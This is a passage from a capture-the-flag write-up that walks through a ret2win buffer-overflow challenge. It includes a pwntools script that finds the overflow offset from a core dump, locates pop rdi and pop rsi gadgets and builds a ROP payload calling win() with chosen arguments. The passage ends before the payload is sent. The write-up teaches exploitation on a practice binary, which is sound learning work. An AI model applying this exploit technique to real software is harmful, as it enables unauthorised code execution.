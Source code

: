 ```python
p.interactive()
```
-Let's run it:  
  <img width="574" height="144" alt="image" src="https://github.com/user-attachments/assets/4b337e70-23b8-4b71-8fdc-f456808a622f" /> <br>

-Voila, we got our flag!

## Automating the process:
-Instead of getting the offset, win address, and gadgets manually, we can automate all of that. It might seem unimportant now, but the more we advance in challenges, the more complicated and longer things get, which makes
having an automated script really helpful.  
-Here's a script that does that (I explained all the details in the comments):  
```python
from pwn import *

context.binary = elf = ELF('./chall')
"""This loads the binary for us, which is needed to use elf.symbols, elf.got, etc.
It also precises the context (x64 or x32), which is necessary for things like flat."""

# context.log_level = 'debug' 
# Adds more details to logging results. It would've been useful if we were analyzing the challenge for the first time.

p = process(elf.path) 

# ========================= Finding the offset:
payload = cyclic(200)
p.sendline(payload)
p.wait()  # waiting for the program to crash, and produce the core dump
core = p.corefile # loading the crash dump, from which we will read the content of RSP after crashing
offset = cyclic_find(core.read(core.rsp, 8))
# Here we're using cyclic to extract the offset from RSP, which points to our overwritten RIP.
log.success(f"Offset found: {offset}")
p.close()

# ========================= Finding win's address:
win = elf.symbols["win"] # getting win's address from the symbol table of our binary
log.success(f"win() address: {hex(win)}")

# ========================= Finding the necessary gadgets:
rop = ROP(elf) # initiating pwntools' rop manager
rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
# the [0] is needed to return only the first match, since it searches for all matching gadgets.
rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
log.success(f"pop rdi ; ret: {hex(rdi)}")
log.success(f"pop rsi ; ret: {hex(rsi)}")

# ========================= Arguments to pass to win function:
arg1 = 0xcafebabe
arg2 = 0xcafed00d

# ========================= Final payload:
payload = flat( # the flat here does all the automatic p64 stuff and other conversions
    b'A' * offset,
    rdi, arg1,
    rsi, arg2,
    win
)

p = process(elf.path)
```